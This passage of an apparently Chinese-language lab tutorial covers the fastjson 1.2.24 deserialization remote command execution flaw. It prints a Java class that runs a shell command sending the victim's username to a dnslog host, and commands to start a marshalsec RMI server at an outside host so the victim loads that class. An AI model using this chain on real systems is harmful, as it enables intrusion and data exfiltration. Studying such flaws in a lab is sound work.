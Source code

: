 ```javascript
{"name":"hello", "age":20}
```
反包：
```javascript
HTTP/1.1 200 
Content-Type: application/json;charset=UTF-8
Content-Length: 30
Date: Tue, 19 May 2020 01:06:20 GMT
Connection: close

{
    "age":20,
    "name":"hello"
}
```
我们看到服务器端返回包为我们构造的包。


### fastjson 1.2.24 反序列化导致任意命令执行漏洞
fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：
- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/

首先编译并上传命令执行代码
```javascript
# cat dnslog.java

import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/sh", "-c", "ping user.`whoami`.c08aqu.dnslog.cn"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```
编译：`javac dnslog.java`。生成class文件；然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并指定受害机器访问9999端口后，去加载远程服务器的类`dnslog.class`，而class文件就是执行command。
```bash
git clone https://github.com/mbechler/marshalsec.git

cd marshalsec

mvn clean package -DskipTests #看到BUILD SUCCESS后进入target

cd target

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "https://www.chihou.pro/#dnslog" 9999

* Opening JRMP listener on 9999
```
